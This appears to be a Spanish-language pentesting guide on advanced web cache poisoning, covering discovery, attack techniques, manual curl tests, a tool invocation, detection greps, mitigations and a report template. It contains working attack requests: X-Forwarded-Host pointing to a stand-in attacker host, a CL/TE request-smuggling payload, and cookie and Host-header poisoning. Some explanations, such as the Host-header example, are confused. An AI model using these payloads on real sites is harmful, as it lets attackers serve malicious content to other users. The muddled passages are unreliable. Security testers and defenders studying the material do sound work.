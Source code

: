 # Cache Poisoning Avanzado

## Resumen

El *Cache Poisoning* avanzado explota discrepancias en la validación de entradas y normalización de URLs para inyectar contenido malicioso en caches (CDN, proxies reversos, caches de navegador) de forma que usuarios posteriores reciban datos falsos o manipulados. A diferencia de la **Web Cache Deception**, el *cache poisoning* puede alterar recursos estáticos existentes, rutas de API, respuestas JSON o incluso inyectar cabeceras HTTP para desviar o interceptar tráfico.

## Contexto

Sistemas típicos: Varnish, Squid, Nginx, Cloudflare, Fastly. Mecanismos de caching basados en claves derivadas de URL, cabeceras (`Host`, `Accept`, `Cookie`) y parámetros de consulta. La complejidad aumenta con arquitecturas microservicios, balanceadores de carga y múltiples capas de proxy.

## Metodología de Ataque

### 1. Descubrimiento de Vectores de Caché

- **Recursos estáticos**: CSS, JS, imágenes.
- **APIs JSON**: respuestas con `Cache-Control: public`.
- **Cabeceras**: `Accept-Language`, `User-Agent`, `Cookie`.
- **Estrategias de cacheo**: ruta completa, query string, combinación de cabeceras.

### 2. Manipulación de Claves de Caché

- **Inyección de cabeceras**: forzar inclusión de cadenas en clave.

```http
GET /recurso HTTP/1.1
Host: victima.com
X-Forwarded-Host: atacante.com
```

- **Alteración de `Host`**: algunos caches incluyen `Host` en la clave y sirven contenido cacheado para dominios arbitrarios.
- **Cache smuggling**: usar request splitting o CRLF para inyectar cabeceras y causar que la respuesta del origen sea interpretada erróneamente por el cache como parte de la caché.

### 3. Técnicas Avanzadas

#### 3.1 Request Smuggling + Poisoning

1. Enviar petición en dos partes:

```
POST / HTTP/1.1
Host: victima.com
Transfer-Encoding: chunked
Content-Length: 100

0

GET /api/data HTTP/1.1
Host: victima.com
...
```

2. El cache almacena la segunda petición como respuesta al GET ` /api/data`, inyectando contenido controlado por el atacante.

#### 3.2 Cookie Poisoning

- Forzar que el cache indexe por valor de cookie manipulada:

```http
GET /dashboard HTTP/1.1
Host: victima.com
Cookie: session=POISON
```

- Usuarios legítimos reciben la versión cacheada con `session=POISON` en la clave, devolviendo contenido envenenado.

#### 3.3 Host Header Poisoning

- En caches que usan `Host` para la clave, suplantar dominio de cache:

```http
GET / HTTP/1.1
Host: atacante.com.victima.com
```

- Cache almacena con host attacker.com, y posteriores requests a `atacante.com.victima.com` entregan contenido cacheado.

#### 3.4 Query String Variation

- Inyectar parámetros irrelevantes para diferenciar claves:

```
/img/logo.png?ver=1
/img/logo.png?ver=malicioso
```

- Cache retiene distintas versiones. El atacante cachea la versión `ver=malicioso` y convence a usuarios de usarla.

### 4. Pruebas Manuales

1. **Identificar reglas de caché:**

```bash
curl -I https://victima.com/api/info
# Verificar Cache-Control y Vary
```

2. **Inyección de cabeceras:**

```bash
curl -H "X-Forwarded-Host: atacante.com" https://victima.com/recurso
```

3. **Poisoning de respuesta JSON:**

```bash
curl -H "Accept: application/json" https://victima.com/api/data
# Luego
curl -H "Accept: application/json" -H "Host: atacante.com.victima.com" https://victima.com/api/data
```

4. **Smuggling:** reproducir request malformado con Burp Repeater.

## Automatización

### CachePoisoner

```bash
git clone https://github.com/example/CachePoisoner.git
cd CachePoisoner
python3 cachepoisoner.py \
  -u https://victima.com/api/data \
  --host-header atacante.com \
  --cookie session=POISON \
  --method smuggling \
  --output report.json
```

### Burp Suite Extensions

- **HTTPCacheTester**: prueba combinaciones de cabeceras y parámetros.
- **Smuggler**: genera payloads de request smuggling.

## Impacto

- **Manipulación de contenido:** inyección de scripts, phishing packaging.
- **Evasión de controles de seguridad:** omitir autenticación, bypass de WAF.
- **Denegación de servicio parcial:** retornar respuestas incorrectas o error masivo.
- **Cadenas de ataque**: cache poisoning → XSS → RCE.

## Detección y Monitoreo

```bash
# Buscar respuestas con status 200 + X-Cache-Hits > 0
grep -E "X-Cache: HIT" access.log | grep "/api/data"
# Detectar host header inusuales
grep -E "Host: .*\.victima\.com" access.log
```

Monitor real-time:

```bash
tail -f access.log | grep -E "session=POISON|X-Forwarded-Host"
```

## Mitigación

1. **Validación de cabeceras:** ignorar `X-Forwarded-Host` o sanitizar antes de usar en clave.
2. **Claves de caché robustas:** usar path absoluto + domain fijo + hash de route.
3. **Incluir cabeceras dinámicas:** `Vary: Cookie, Authorization` para endpoints privados.
4. **Rechazar request smuggling:** configurar `Content-Length` y deshabilitar `Transfer-Encoding: chunked` duplicado.
5. **Cache-Control estricto:**

```http
Cache-Control: private, no-store, max-age=0
```

6. **Separación de caches:** segmentar rutas estáticas de dinámicas en distintos servicios.

## Reporte

**Título:** Cache Poisoning Avanzado – Inyección de Contenido en Caché
**Resumen Ejecutivo:** Un atacante manipula cabeceras, host y smuggling para envenenar la caché con respuestas maliciosas que luego son servidas a usuarios legítimos.
**Pasos de Reproducción:**

1. Enviar request autenticado con `X-Forwarded-Host: atacante.com` a `/api/data`.
2. Verificar que la respuesta se cachea y se puede recuperar con host poisoning.
3. Demostrar contenido cacheado malicioso sin autenticación.
   **Mitigación Recomendada:** Validar cabeceras críticas, configurar claves de caché con variación adecuada y segmentar tráfico estático de dinámico.
